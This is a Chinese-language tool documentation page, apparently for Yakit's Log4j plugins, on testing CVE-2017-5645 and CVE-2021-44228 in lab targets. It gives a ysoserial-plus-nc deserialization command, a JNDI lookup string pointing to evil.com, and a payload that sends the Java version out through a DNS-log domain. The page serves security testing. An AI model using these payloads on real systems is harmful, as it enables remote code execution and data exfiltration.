 ```yaml
---
sidebar_position: 28
---
```

# Log4j插件使用

## 1 CVE-2017-5645 反序列化命令执行漏洞

**插件id：**

Yakit正在努力编写~

**漏洞描述：**

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

**测试过程：**

使用vulhub靶场，在8712端口开启tcp服务

![](/img/products/yakit/Log4j-1.png)

使用ysoserial生成payload，然后直接发送给8712端口

```go
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip port
```

执行docker-compose exec log4j bash进入容器，可见 /tmp/success 已成功创建

![](/img/products/yakit/Log4j-3.png)

## 2 CVE-2021-44228 JNDI 注入漏洞

**插件id：**

Yakit正在努力编写~

**漏洞描述：**

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，执行任意代码。

**测试过程：**

访问vulfocus靶场

![](/img/products/yakit/Log4j-4.png)

开启log4j2被动扫描插件并刷新页面流量，发现在Accept参数处有漏洞

![](/img/products/yakit/Log4j-5.png)

再发送payload:${jndi:ldap://${sys:java.version}.rowkazpvsx.dnstunnel.run}，在dnslog收到命令执行结果

![](/img/products/yakit/Log4j-6.png)
